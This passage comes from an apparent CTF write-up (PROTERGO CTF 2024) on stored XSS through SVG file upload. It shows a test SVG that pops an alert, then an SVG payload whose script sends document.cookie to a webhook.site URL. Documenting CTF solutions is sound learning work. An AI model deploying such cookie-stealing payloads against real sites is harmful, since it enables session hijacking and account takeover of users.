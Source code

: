 ``` xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("Banua");
  </script>
</svg>
```

Try accessing the uploaded SVG file, and the payload successfully triggers by displaying a pop-up.

![Control](/assets/img/PROTERGO-CTF-2024/images/PROTERGOCTF2024_Control5.png)

Next, I'll create a payload to steal the cookie and send it to my webhook. Here, I'm using a One-Liner payload from [link](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).

``` xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script>var i=new Image;i.src="https://webhook.site/d8286ddf-6b37-456c-b98b-e21b9d86bab0?"+document.cookie;</script>
</svg>
```
